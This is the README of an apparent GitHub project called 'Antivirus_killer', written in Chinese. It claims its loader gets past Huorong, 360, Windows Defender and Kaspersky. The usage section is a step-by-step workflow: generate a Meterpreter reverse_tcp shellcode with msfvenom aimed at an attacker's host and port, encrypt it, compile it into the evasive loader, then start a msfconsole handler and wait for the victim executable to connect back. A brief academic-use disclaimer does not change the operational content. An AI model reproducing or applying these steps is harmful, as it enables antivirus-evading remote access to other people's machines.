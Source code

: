 # Antivirus_killer
免杀主流防病毒软件<br />
测试于2024年10月17日加载器2024_9_24(需配合新版加密器)可过最新版火绒、360核晶模式、windows自带杀软、卡巴斯基<br />
该项目仅供学术交流参考，请大家合法学习和使用项目
# 使用方法
## 生成shellcode
msfvenom LHOST=x.x.x.x LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f c
## 加密shellcode 
将生成的shellcode复制到加密器.c的buf变量中并编译运行
## 编译加载器
将加密后的shellcode 复制到加载器的shellcode变量中编译
## 准备msf监听器
msfconsole<br />
use exploit/multi/handler<br />
set payload windows/x64/meterpreter/reverse_tcp<br />
set LHOST x.x.x.x<br />
set LPORT 443<br />
run<br />
## 双击编译好的exe观察是否上线
![image](https://github.com/user-attachments/assets/24568684-4b41-4c87-a393-d45806aea1da)
